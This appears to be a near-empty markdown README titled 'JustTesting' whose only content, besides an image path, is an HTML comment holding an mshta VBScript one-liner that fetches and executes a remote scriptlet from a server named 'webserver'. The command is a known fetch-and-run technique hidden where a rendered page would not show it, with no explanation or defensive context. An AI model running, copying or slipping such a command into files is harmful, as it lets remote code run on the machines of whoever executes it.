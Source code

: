 # JustTesting

<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
